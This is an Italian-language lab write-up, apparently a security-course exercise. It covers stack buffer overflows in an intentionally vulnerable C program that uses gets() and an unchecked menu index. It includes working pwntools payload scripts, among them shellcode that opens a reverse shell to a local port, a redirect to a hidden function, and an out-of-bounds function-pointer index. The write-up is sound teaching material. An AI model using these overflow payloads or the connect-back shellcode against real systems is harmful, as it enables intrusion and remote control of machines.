# 1. Buffer Overflow

In questa challenge si tenta di sfruttare una vulnerabilità di tipo Buffer Overflow al fine di iniettare uno shellcode all'interno dell'applicativo vittima.

L'applicativo da attaccare è `wisdom-alt.c`, mostrato di seguito
```c

char greeting[] = "Hello there\n1. Receive wisdom\n2. Add wisdom\nSelection >";
char prompt[] = "Enter some wisdom\n";
char pat[] = "Achievement unlocked!\n";
char secret[] = "secret key";

int infd = 0; /* stdin */
int outfd = 1; /* stdout */

#define DATA_SIZE 512

typedef struct _WisdomList {
  struct  _WisdomList *next;
  char    data[DATA_SIZE];
} WisdomList; 

struct _WisdomList  *head = NULL;

typedef void (*fptr)(void);

void write_secret(void) {
  write(outfd, secret, sizeof(secret));
  return;
}

void pat_on_back(void) {
  write(outfd, pat, sizeof(pat));
  return;
}

void get_wisdom(void) {
  char buf[] = "no wisdom\n";
  if(head == NULL) {
    write(outfd, buf, sizeof(buf)-sizeof(char));
  } else {
    WisdomList  *l = head;
    while(l != NULL) {
      write(outfd, l->data, strlen(l->data));
      write(outfd, "\n", 1);
      l = l->next;
    }
  }
  write(outfd, "\n", 1);
  return;
}

void put_wisdom(void) {
  char  wis[DATA_SIZE] = {0}; 
  int   r;

  r = write(outfd, prompt, sizeof(prompt)-sizeof(char));
  if(r < 0) {
    return;
  }
 
  r = (int)gets(wis); 
  if (r == 0)
    return;

  WisdomList  *l = malloc(sizeof(WisdomList));

  if(l != NULL) {
    memset(l, 0, sizeof(WisdomList));
    strcpy(l->data, wis);
    if(head == NULL) {
      head = l;
    } else {
      WisdomList  *v = head;
      while(v->next != NULL) {
        v = v->next;
      }
      v->next = l;
    }
  }

  write(outfd, "\n", 1);

  return;
}

fptr  ptrs[3] = { NULL, get_wisdom, put_wisdom };

int main(int argc, char *argv[]) {

  while(1) {
      char  buf[1024] = {0};
      int r;
      fptr p = pat_on_back;
      r = write(outfd, greeting, sizeof(greeting)-sizeof(char));
      if(r < 0) {
        break;
      }
      r = read(infd, buf, sizeof(buf)-sizeof(char));
      if(r > 0) {
        buf[r] = '\0';
        int s = atoi(buf);
        fptr tmp = ptrs[s];
        tmp();
      } else {
        break;
      }
  }

  return 0;
}
```
<p align="center">
  
</p>


## Challenge 

L'obiettivo è di sfruttare l'input che viene raccolto in ingresso per poter iniettare uno shellcode.

In particolare, all'interno di `put_wisdom()`, è presente la funzione `gets()` che non effettua alcun controllo sulla dimensione dell'input, permettendo di scrivere oltre i limiti del buffer impostato.

```c
void put_wisdom(void) {
  char  wis[DATA_SIZE] = {0}; 
  int   r;

  r = write(outfd, prompt, sizeof(prompt)-sizeof(char));
  if(r < 0) {
    return;
  }
 
  r = (int)gets(wis); 
  if (r == 0)
    return;

  WisdomList  *l = malloc(sizeof(WisdomList));

  if(l != NULL) {
    memset(l, 0, sizeof(WisdomList));
    strcpy(l->data, wis);
    if(head == NULL) {
      head = l;
    } else {
      WisdomList  *v = head;
      while(v->next != NULL) {
        v = v->next;
      }
      v->next = l;
    }
  }

  write(outfd, "\n", 1);

  return;
}
```

Il menu principale è possibile aggirarlo inserendo all'interno del payload che andremo a definire l'opzione insieme a un riempitivo. Il riempitivo è definito per via della funzione `read()` che occupa 1024 caratteri

`$ python3 -c 'import sys; sys.stdout.write("2\n"+ "A"*1022)' > cyclic`

Il passaggio principale è di definire una sequenza ciclica di De Bruijn, al fine di trovare lo stack pointer. Questo ci permetterà di ottenere il giusto offset.

Nel nostro caso, scegliamo una sequenza ciclica di 8 caratteri per 1200 caratteri totali

`cyclic -n 8 1200 >> cyclic`

<p align="center">
  
</p>


Dopo esserci accertati che l'attacco ha avuto successo, tramite `gdb` analizziamo il punto preciso in cui il programma è fuoriuscito dallo stack pointer, in modo da definire lo spazio per il nostro shellcode

<p align="center">
  
</p>


nel nostro caso la sequenza da attaccare è la `ctaaaaaa`. usiamo cyclic per scovare dove è collocata la sequenza ciclica

<p align="center">
  
</p>


da qui, possiamo creare il nostro script per generare l'attacco

```python
s_code = shellcraft.amd64.linux.connect('127.0.0.1', 12345) + shellcraft.amd64.linux.dupsh('rbp')

s_code_asm = asm(s_code)

ret_addr = 0x7FFFFFFFDA88 - 551
addr = p64(ret_addr, endian ='little')

nop = asm('nop', arch="amd64")

payload = b"2\n" + b"A"*1022

payload += nop*(551 - len(s_code_asm) - 64) + s_code_asm + nop*64 + addr

with open("./payload_challenge1", "wb") as f: 
	f.write(payload)

```

infine, lo eseguiamo e avviamo una sessione servier in un altro terminale

<p align="center">
  
</p>

## Challenge Extra

### 1. eseguire la funzione `write_secret()` 

La funzione `write_secret()` è una funzione che stampa la stringa "secret key" all'interno del terminale, e non è raggiungibile tramite il menu principale.

```c
void write_secret(void) {
  write(outfd, secret, sizeof(secret));
  return;
}
```

secret, a sua volta, è una stringa dichiarata all'inizio del file

```c
char secret[] = "secret key";
```

In questo caso, eseguendo il programma tramite gdb, estraiamo l'indirizzo della funzione, andando prima a inserire un breakpoint nel main

<p align="center">
  
</p>

<p align="center">
  
</p>

Da qui, creiamo il nostro payload 

```python
ret_addr = 0x555555555229
addr = p64(ret_addr, endian ='little')

nop = asm('nop', arch="amd64")

payload = b"2\n" + b"A"*1022

payload += b"A" * 551 + addr

with open("./payload_challenge_extra1", "wb") as f: 
	f.write(payload)
```
è possibile notare che, dall'output, siamo riusciti nel nostro intento

<p align="center">
  
</p>


### 2. attaccare `put_wisdom()` nella versione a 32 bit

L'accortenza principale è che ora gli indirizzi sono di 4 byte, e che la la RET causa una eccezione DOPO aver fatto il pop: l'indirizzo verrà  rimosso dalla cima dello stack e inserito in EIP.

come passaggio preliminare, compiliamo il file in modo da ottenere un eseguibile a 32 bit tramite il flag `-m32`

```makefile
wisdom-alt-32: wisdom-alt.c
	$(CC) -fno-stack-protector  -z execstack  -g -m32  wisdom-alt.c  -o wisdom-alt-32
```
ripetendo gli stessi passaggi per quanto riguarda la versione a 64 bit, usando però una sequenza ciclica di 4 caratteri, troviamo prima il punto di ingresso tramite offset

<p align="center">
  
</p>

Dopodiché, si trova il numero della sequenza ciclica della stringa ciclica all'interno di EIP

<p align="center">
  
</p>

a questo punto non resta che creare il paylaod, in questo caso un echo

```python
s_code = shellcraft.i386.linux.echo("Hello world!") + shellcraft.i386.linux.exit()
s_code_asm = asm(s_code)

ret_addr = 0xffffcd20 - 535
addr = p32(ret_addr, endian ='little')

nop = asm('nop', arch = 'i386')

payload = b"2\n" + b"A"*1022

payload += nop*(535 - len(s_code_asm) - 64) + s_code_asm + nop*64 + addr

with open("./payload_challenge_extra2", "wb") as f: 
	f.write(payload)
```
e attaccare l'applicativo

<p align="center">
  
</p>

### 3. attaccare il buffer overflow nell'array globale `ptrs` (versione 32 bit), fare eseguire la funzione `pat_on_back()`

Sempre nella versione a 32 bit, adesso proviamo ad accedere, mediante l'array del menù principale, alla funzione `pat_on_back()`, contentua all'interno del puntatore `p`.

Il nostro obiettivo sarà quello di inserire l'indirizzo di `pat_on_back()` all'interno dell'array `ptrs`. Questo è possibile andando a fornire in ingresso alla funzione `read()` un indice tale per cui `ptrs[indice]` punti al valore di `p`, che a sua volta punta alla funzione `pat_on_back()`

La variabile `p` è all'interno dello stack del main, mentre `ptrs`, essendo un array globale, si trova nel segmento .data. 

l'indice `s` per l'operazione `ptrs[s] `viene calcolato come:` Indirizzo_di_p = Indirizzo_di_ptrs + (s * dimensione_puntatore)`

Per determinare quindi il valore da inserire come indice, dobbiamo calcolare la distanza tra `p` e `ptrs` in questo modo

`s = (Indirizzo_di_p - Indirizzo_di_ptrs) / 4 (byte)`

otteniamo quindi gli indirizzi di `p` e di `ptrs` tramite `gdb`. Inseriamo un breakpoint prima dell'esecuzione della funzione `read()`

<p align="center">
  
</p>

dopodiché, vanno estratti gli indirizzi di `p` e di `ptrs` tramite `gdb`

<p align="center">
  
</p>

a questo punto va creato il payload. 

```python

p_addr = 0xffffd02c
ptrs_addr = 0x56559094

addr = p_addr - ptrs_addr
addr //= 4

payload = str(addr).encode() + b"\n"

with open("./payload_challenge_extra3", "wb") as f: 
    f.write(payload)

print(f"[+] Payload generato con successo! Contenuto: {payload}")
```

Una volta generato il payload, a questo punto non ci resta altro che prelevare l'informazione ed eseguire l'attacco.

<p align="center">
  
</p>